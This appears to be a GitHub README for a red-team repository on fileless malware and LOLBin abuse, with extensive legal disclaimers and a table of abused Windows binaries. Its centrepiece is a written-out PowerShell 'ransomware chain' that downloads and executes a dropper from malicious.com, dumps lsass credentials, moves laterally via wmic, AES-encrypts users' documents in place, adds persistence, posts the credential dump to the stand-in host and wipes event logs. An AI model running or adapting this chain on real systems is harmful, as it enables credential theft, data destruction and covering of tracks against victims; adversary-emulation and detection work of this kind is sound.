 

# ⚠️ Advisory & Legal Notice: Educational and Authorized Research Use Only

This repository presents **advanced cybersecurity simulation tools and techniques**, primarily intended for:

- Fileless malware behavior emulation  
- Living-off-the-Land Binaries (LOLBins) abuse scenarios  
- Offensive security automation (e.g., PrintNightmare, SpoolFool)  
- Adversary emulation within red/purple team operations  
- Drive-by payload structures and phishing simulation  
- CI/CD exploitation via GitHub Actions in lab environments  

> **This repository is strictly for research, education, and authorized simulation use.**  
> All materials are to be used exclusively within the following environments:
> 
> - Cybersecurity research labs  
> - Adversary emulation platforms and red/purple team frameworks  
> - SOC detection validation via cyber ranges  
> - Blue Team response exercises  
> - Controlled malware analysis environments  

---

## 🧪 For Lab-Based Simulation Only

This repository is intended to **simulate real-world adversarial behavior** under **isolated, controlled, and authorized conditions only**.  
Deployment on production systems, third-party networks, or any environment without **explicit, written authorization** is strictly prohibited.

---

## ❌ Unauthorized Usage Prohibited

- This content must **never** be used for malicious, unlawful, or unethical purposes.  
- **Misuse may violate international, federal, or local cybersecurity laws.**  
- Authors and contributors assume **no liability** for any damage or legal consequences resulting from misuse or improper replication of this content.

---

## ✅ Usage Agreement

By accessing, cloning, or executing this repository, you agree to the following:

- You will use this content **only in compliance** with applicable laws, regulations, and institutional security policies.  
- You accept **full responsibility** for the outcomes and legal implications of your usage.  
- You are authorized to conduct security testing in your target environment or have written permission to do so.

---

**⚖️ Unsure whether your use is authorized? Do not proceed.  
Consult your organization's legal, compliance, or security leadership before using this repository.**

---

## 🧠 NSFW – Advanced Fileless Malware Emulation

![Fileless Malware Concept](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)

---

## 🧩 LOLBins 101: Living-Off-the-Land Binaries & Scripts

**LOLBins** are legitimate system tools native to Windows environments that can be weaponized by adversaries to execute arbitrary code, establish persistence, and evade detection.

### ⚙️ Commonly Abused LOLBins

| Binary               | Primary Abuse Vector             | Related MITRE Tactics                  |
|----------------------|----------------------------------|----------------------------------------|
| `rundll32.exe`       | Reflective DLL execution         | Execution, Defense Evasion             |
| `mshta.exe`          | HTA script execution             | Obfuscation, Sandbox Evasion           |
| `regsvr32.exe`       | COM object loading               | Fileless Execution, C2 Communication   |
| `wmic.exe`           | Remote command execution         | Lateral Movement, Discovery            |
| `cmd.exe / powershell.exe` | Script execution          | Payload Staging, Persistence           |
| `msbuild.exe`        | Runtime C# compilation           | Fileless Malware Deployment            |
| `certutil.exe`       | File download/decode             | Staging, Exfiltration                  |
| `bitsadmin.exe`      | Background file transfers         | Task Persistence, Delivery             |
| `schtasks.exe`       | Scheduled task creation          | Privilege Escalation, Persistence      |
| `esentutl.exe`       | Arbitrary binary copying         | Covert Execution, Exfiltration         |

---

## 🧬 Simulation: 100% Fileless Ransomware Chain  
*Mapped using the [MITRE ATT&CK Framework](https://attack.mitre.org/)*

> ⚠️ **Legal Disclaimer**: The following simulation script is a **synthetic red team emulation sample** and **must not be executed outside of a properly sandboxed or isolated testing environment**.

<details>
<summary>Click to view simulated PowerShell ransomware TTP chain</summary>

```powershell
# 🎯 Initial Access (T1190)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# ⚡ Execution (T1059.001)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 🔓 Privilege Escalation (T1548)
Start-Process "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File elevate.ps1" -Verb RunAs

# 🧪 Credential Access (T1003.001)
Invoke-Expression "rundll32.exe comsvcs.dll, MiniDump (Get-Process lsass).Id dump.dmp full"

# 🔍 Discovery (T1082)
Get-WmiObject Win32_ComputerSystem | Select Name, Domain, UserName
Get-NetAdapter | Select Name, MacAddress

# 🌐 Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell -File payload.ps1"

# 💣 Impact: File Encryption (T1486)
$files = Get-ChildItem "C:\Users\*\Documents" -Include *.txt,*.docx -Recurse
foreach ($f in $files) {
    $data = Get-Content $f.FullName -Raw
    $key = (1..32 | ForEach { [char](Get-Random -Min 65 -Max 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32,'X'))
    $aes.IV = New-Object byte[] 16
    $enc = $aes.CreateEncryptor()
    $bytes = [Text.Encoding]::UTF8.GetBytes($data)
    $encData = [Convert]::ToBase64String($enc.TransformFinalBlock($bytes,0,$bytes.Length))
    Set-Content -Path $f.FullName -Value $encData
}

# 📌 Persistence (T1547.001)
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -File persist.ps1"
schtasks /create /tn "UpdaterTask" /tr "powershell -File persist.ps1" /sc onlogon /rl highest

# 📤 Exfiltration (T1041)
$exfil = [Convert]::ToBase64String([IO.File]::ReadAllBytes("dump.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfil

# 🧹 Defense Evasion (T1070)
Remove-Item C:\Windows\Temp\* -Recurse -Force
wevtutil cl System; wevtutil cl Security; wevtutil cl Application
```

</details>

---

## 🔗 Recommended Resources & Tools

- [PrintNightmare – Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)  
- [Printer Spooler Vulnerability Summary](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-eop-the-printnightmare-of-2021/)  
- [LOLOL Farm – LOLBin Sandbox](https://lolol.farm/)  
- [MITRE ATT&CK - T1218 Reference](https://attack.mitre.org/techniques/T1218/)  
- [LOLGEN – Chain Generator](https://lolgen.hdks.org/)  
- [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)  
- [DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)  
- [Printer Exploitation Toolkit](https://github.com/jacob-baines/concealed_position)

---

### 🛡️ Closing Statement

This repository is a **research artifact** intended solely for use by cybersecurity professionals, red team operators, and academic researchers.  
Use is governed by your local and international laws, organizational policies, and ethical standards. Unauthorized use or replication of these techniques in real-world systems is **strictly prohibited**.

